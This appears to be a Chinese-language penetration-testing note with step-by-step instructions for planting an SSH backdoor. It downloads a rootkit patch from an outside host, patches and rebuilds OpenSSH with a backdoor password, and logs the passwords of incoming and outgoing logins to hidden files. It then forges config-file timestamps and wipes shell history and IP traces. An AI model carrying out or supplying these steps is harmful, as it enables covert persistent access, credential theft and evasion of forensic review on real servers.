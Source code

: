 	下载
	http://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
	http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
	备份配置文件
	>mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
	>mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
	安装关联文件
	centos
	>yum install -y openssl openssl-devel pam-devel zlib zlib-devel
	Ubuntu
	>apt-get install -y openssl libssl-dev libpam0g-dev
	>tar zxvf openssh-5.9p1.tar.gz 
	>tar zxvf 0x06-openssh-5.9p1.patch.tar.gz 
	>cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1/
	>cd openssh-5.9p1
	>patch <sshbd5.9p1.diff
	>vim includes.h
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/575.png)
	
	/tmp/ilog记录登录到本机的用户密码
	/tmp/olog记录本机登录其他机器的账户密码
	日志文件前可以加个.隐藏起来
	SECRETPW是连接后门密码
	查看当前版本
	>ssh -V
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/576.png)

	修改version.h改为当前版本
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/577.png)

	编译安装
	Centos7
	>./configure --prefix=/usr/ --sysconfdir=/etc/ssh/ --with-pam --with-kerberos5
	>make clean
	>make && make install
	>systemctl restart sshd.service
	ubuntu
	>./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam
	>make clean
	>make&&make install
	重启服务，修改文件日志
	>touch -r/etc/ssh/ssh_config.old /etc/ssh/ssh_config
	>touch -r/etc/ssh/sshd_config.old /etc/ssh/sshd_config
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/578.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/579.png)

	清除痕迹
	>export HISTFILE=/dev/null
	>export HISTSIZE=0
	>export HISTFILESIZE=0
	>sed -i 's/192.168.0.1/127.0.0.1/g' /root/.bash_history
